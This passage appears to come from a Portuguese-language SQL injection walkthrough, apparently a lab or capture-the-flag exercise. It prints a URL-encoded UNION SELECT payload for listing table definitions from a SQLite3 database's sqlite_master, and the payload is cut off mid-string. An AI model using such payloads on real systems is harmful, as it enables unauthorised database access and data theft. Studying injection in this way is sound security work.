 ![Descrição da imagem](./images/9.png)
![Descrição da imagem](./images/10.png)

## Com isso em mente, partimos para a próxima etapa: identificar os nomes das tabelas do banco de dados. Como se trata de um SQLite3 , utilizamos payloads específicas para explorar esse tipo de banco de dados.

### a'union+SELECT+1,sql,3+FROM+sqlite_master+WHERE+type!%3d'meta'+AND+sql+NOT+NULL+AND+name+NOT+LIKE+'sqlite_%25'+AND+name+%
